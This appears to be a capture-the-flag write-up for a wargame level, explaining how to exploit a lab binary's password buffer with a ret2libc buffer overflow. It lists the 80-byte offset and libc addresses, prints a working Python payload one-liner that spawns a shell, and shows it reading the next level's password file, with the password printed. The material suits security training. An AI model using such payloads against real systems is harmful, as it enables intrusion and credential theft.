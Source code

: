 # Level01

> For introductory information on this operating system and binary securities, check [here](./analysis.md).

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./gdb.md)). This time we need to input a login and a password in what looks like an auth system. Using our analysis we know that login is `dat_wil` and password is `admin` but no matter what the password is it will trigger a "bad password" message then exit. What we can do here is to create a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) and use it to make a [ret2libc attack](https://en.wikipedia.org/wiki/Return-to-libc_attack).

All we need for this is:

- An exploitable buffer (the one used for password).
- Its offset (**80** bytes)
- Address of `system()`, `exit()` and `/bin/sh` (respectively `0xf7e6aed0`, `0xf7e5eb70` and `0xf7f897ec`)

Then we simply need to construct a payload that will shift outside of the buffer to write address of `system()` then `exit()` and finally `/bin/sh` to get a shell!

```shell
  $> (python -c "print 'dat_wil\n' + '\x90' * 80 + '\xf7\xe6\xae\xd0'[::-1] + '\xf7\xe5\xeb\x70'[::-1] + '\xf7\xf8\x97\xec'[::-1]"; cat) | ./level01 
  ********* ADMIN LOGIN PROMPT *********
  Enter Username: verifying username....

  Enter Password: 
  nope, incorrect password...

  cat /home/users/level02/.pass
  PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

So next user credentials pair is `level02:PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv`.

Check [here](../source.c) for reproduction source-code of this binary.